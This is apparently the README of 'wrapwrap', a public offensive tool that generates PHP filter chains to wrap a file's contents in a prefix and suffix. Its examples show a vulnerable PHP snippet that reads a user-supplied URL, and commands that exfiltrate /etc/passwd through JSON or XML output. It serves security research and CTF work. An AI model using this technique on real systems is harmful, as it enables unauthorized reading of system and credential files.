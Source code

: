 # wrapwrap

Generates a `php://filter` chain that adds a prefix and a suffix to the contents of a file.

Refer to [our blogpost](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix) for details about the implementation.

# Contributing

If you want to contribute, the main python file contains a few TODOs which should not be hard to implement.

# Examples

## JSON

Say you have code like so:

```php
$data = file_get_contents($_POST['url']);
$data = json_decode($data);
echo $data->message;
```

To obtain the contents of some file, we'd like to have: `{"message":"<file contents>"}`. This can be done using:

```shell
$ ./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
[*] Dumping 1008 bytes from /etc/passwd.
[+] Wrote filter chain to chain.txt (size=705031).
```

This yields:

```json
{"message":"root:x:0:0:root:/root:/bin/bash=0Adaemon:..."}
```

## XML

If some PHP code parses an arbitrary XML and displays the contents of the `<name>` tag, we'd like something like: `<root><name>[file contents]</name></root>`. As a result, we'd use:

```shell
$ ./wrapwrap.py /etc/passwd '<root><name>' '</name></root>' 1000
[*] Dumping 1008 bytes from /etc/passwd.
[+] Wrote filter chain to chain.txt (size=709871).
```

This produces:

```xml
<root><name>root:x:0:0:root:/root:/bin/bash=0Adaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin=0Abin:x:...</name></root>
```

# Previous work

As mentioned in [the blogpost](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix), this tool could not have been made without the previous work of other people such as (*but not limited to*):

- [Surprising CTF task solution using php://filter](https://gynvael.coldwind.pl/?id=671) by gynvael
- [Solving "includer's revenge" from hxp ctf 2021 without controlling any files](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) by loknop
- [PHP filters chain: what is it and how to use it](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it) by remsio
- [DownUnderCTF 2022 minimal-php solution and write up](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py) by hash_kitten
- [PHP filters chain: file read from error based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle) by remsio
